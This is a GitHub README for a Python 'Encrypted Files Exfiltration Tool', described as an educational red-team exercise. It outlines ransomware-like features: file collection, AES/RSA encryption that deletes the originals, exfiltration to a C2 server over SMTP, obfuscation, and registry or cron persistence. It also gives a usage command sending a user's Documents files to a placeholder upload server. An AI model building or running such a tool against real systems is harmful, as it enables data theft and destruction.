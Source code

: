 Encrypted Files Exfiltration Tool

This Python script performs file collection, encryption, and exfiltration as part of a simulated cybersecurity exercise. It identifies files, encrypts them, and transfers them to a remote server. The tool also includes basic evasion techniques for educational purposes.

Disclaimer: This tool is for educational use only. Unauthorized use for malicious purposes is prohibited and may violate applicable laws.

Overview
The Encrypted Files Exfiltration Tool is a Python-based script that simulates identifying sensitive files, encrypting them, and transferring them to a remote server. It is designed for cybersecurity exercises such as red team operations or ethical hacking demonstrations.

Features

File Collection: Recursively searches for specific file types (e.g., .txt, .docx, .jpg) in a user-specified directory and logs the results.
Encryption: Encrypts identified files using AES encryption. A random symmetric key is generated and securely stored.
Exfiltration: Sends encrypted files to a "command and control" (C2) server using SMTP email.
Evasion Techniques: Includes code obfuscation and persistence mechanisms (e.g., registry entry and cron job).
Hybrid Encryption: Uses RSA to encrypt the AES key for added security.
Prerequisites
Before running the script, ensure you have the following installed:

Python 3.8 or higher
Required Python libraries: cryptography, requests, argparse
Install the required libraries using the following command:
pip install cryptography requests argparse

Installation

Clone the repository:
git clone https://github.com/habdelgawad1/Encrypted-Files-Exfiltration.git
Navigate to the project directory:
cd Encrypted-Files-Exfiltration
Install dependencies:
pip install -r requirements.txt
Usage
To run the script, use the following command:
python main.py --directory <target_directory> --filetypes <file_extensions> --server <server_url>

Example:
python main.py --directory /home/user/Documents --filetypes .txt,.docx,.jpg --server http://example.com/upload

Task Breakdown

Task 2: File Collection Module
Searches for specific file types in a user-specified directory.
Recursively traverses subdirectories.
Logs the list of found files to files.log.

Task 3: Encryption Module
Implements AES encryption in Python.
Generates a random symmetric key.
Encrypts identified files and deletes or overwrites the original files.
Stores the encryption key in a secure file (key.bin).
Uses hybrid encryption (RSA for the AES key).

Task 4: Exfiltration Module
Sends encrypted files to a C2 server using SMTP email.
Simulates a server with Python's cloud bucket.

Task 5: Evasion and Anti-Analysis
Adds basic evasion techniques:
Code obfuscation (e.g., renaming variables, using base64 encoding).
Persistence mechanism (e.g., adding a registry entry or cron job).

License
This project is licensed under the MIT License. See the LICENSE file for more details.

Contact
If you have any questions, suggestions, or feedback, feel free to reach out:

Author: Hussein AbdelGawad
Email: hwsabdelgawad@gmail.com
GitHub: @habdelgawad1
Thank you for using Encrypted Files Exfiltration! We hope this tool helps you enhance your understanding of secure data handling and cybersecurity practices.
